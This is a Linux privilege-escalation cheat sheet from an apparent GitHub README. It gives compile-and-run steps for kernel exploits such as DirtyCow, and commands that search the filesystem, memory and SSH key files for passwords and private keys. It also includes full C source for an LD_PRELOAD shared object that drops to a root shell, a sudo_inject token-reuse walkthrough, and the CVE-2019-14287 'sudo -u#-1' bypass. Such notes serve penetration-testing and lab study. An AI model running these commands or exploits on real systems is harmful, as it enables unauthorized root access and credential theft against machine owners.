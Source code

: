 # linux-priv-Esc

# GTFOBins  
https://gtfobins.github.io


# Initial Enumeration
uname -a, netstat -ano, history

# Automated tools 
1) Linux-Exploit-Suggester  https://github.com/mzet-/linux-exploit-suggester
2) Linux-Privilege-Script https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/linPEAS
3) Linux-Enumeration https://github.com/rebootuser/LinEnum


# Kernal-Exploit 

1) CVE-2016-5195 (DirtyCow)
Linux Privilege Escalation - Linux Kernel <= 3.19.0-73.8
Code: https://github.com/FireFart/dirtycow/blob/master/dirty.c

compile:- gcc -pthread dirty.c -o dirty -lcrypt

Then run the newly create binary by either doing:- "./dirty" or "./dirty my-new-password"

2) CVE-2010-3904 (RDS)
Linux RDS Exploit - Linux Kernel <= 2.6.36-rc8
https://www.exploit-db.com/exploits/15285/

3) CVE-2010-4258 (Full Nelson)
Linux Kernel 2.6.37 (RedHat / Ubuntu 10.04)
https://www.exploit-db.com/exploits/15704/

4) CVE-2012-0056 (Mempodipper)

Linux Kernel 2.6.39 < 3.2.2 (Gentoo / Ubuntu x86/x64)
https://www.exploit-db.com/exploits/18411


# Weak File Permission 

ls -l | grep shadow 

ls -l | grep passwd

# File Containing Password

grep --color=auto -rnw '/' -ie "PASSWORD" --color=always 2> /dev/null

find . -type f -exec grep -i -I "PASSWORD" {} /dev/null \;

# Old passwords in /etc/security/opasswd

/etc/security/opasswd 


# Last edited files
*Files that were edited in the last 10 minutes*

find / -mmin -10 2>/dev/null | grep -Ev "^/proc"

# In memory passwords
strings /dev/mem -n10 | grep -i PASS

# Find sensitive files
$ locate password | more           
/boot/grub/i386-pc/password.mod
/etc/pam.d/common-password
/etc/pam.d/gdm-password
/etc/pam.d/gdm-password.original
/lib/live/config/0031-root-password

# SSH Key

*Sensitive files*

find / -name authorized_keys 2> /dev/null
find / -name id_rsa 2> /dev/null


# SUDO

* NOPASSWD Sudo configuration might allow a user to execute some command with another user privileges without knowing the password.*

$ sudo -l

# LD_PRELOAD and NOPASSWD
If LD_PRELOAD is explicitly defined in the sudoers file

Defaults        env_keep += LD_PRELOAD
Compile the shared C code below on victim machine with gcc -fPIC -shared -o shell.so shell.c -nostartfiles

#include <stdio.h>
#include <sys/types.h>
#include <stdlib.h>
void _init() {
	unsetenv("LD_PRELOAD");
	setgid(0);
	setuid(0);
	system("/bin/sh");
}
Execute any binary with the LD_PRELOAD to spawn a shell : sudo LD_PRELOAD=<full_path_to_.so_file> <program>, e.g: sudo LD_PRELOAD=/tmp/shell.so whoami


# sudo_inject
Using https://github.com/nongiach/sudo_inject

$ sudo whatever
[sudo] password for user:    
# Press <ctrl>+c since you don't have the password. 
# This creates an invalid sudo tokens.
$ sh exploit.sh
.... wait 1 seconds
$ sudo -i # no password required :)
# id
uid=0(root) gid=0(root) groups=0(root)
Slides of the presentation : https://github.com/nongiach/sudo_inject/blob/master/slides_breizh_2019.pdf

CVE-2019-14287
# Exploitable when a user have the following permissions (sudo -l)
(ALL, !root) ALL

# If you have a full TTY, you can exploit it like this
sudo -u#-1 /bin/bash
sudo -u#4294967295 id
